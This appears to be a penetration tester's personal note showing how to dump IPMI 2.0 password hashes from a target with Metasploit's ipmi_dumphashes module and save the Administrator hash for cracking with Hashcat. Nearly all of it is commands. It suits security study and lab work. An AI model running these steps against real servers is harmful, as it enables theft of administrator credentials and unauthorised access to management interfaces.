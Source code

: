 ```yaml
---
category: Uncategorized
tags: []
---
```

```bash - kali
msfconsole
```

```bash - kali
use auxiliary/scanner/ipmi/ipmi_dumphashes
```

```bash - kali
set RHOSTS $TARGET 
```

```bash - kali
run
```

The hash for user Administrator is retrieved. Let's save it in a file and use Hashcat to attempt to crack the hash.
```bash - kali
echo -n 3c08a6bf020500008edc65459227db9e4de83261ee2eafe9429a07eb96d30b745fef6f821dd97d81a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:80026d133489237175ee975d5dff53f4c923b396 > hash 
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#IPMI2 RAKP HMAC-SHA1]]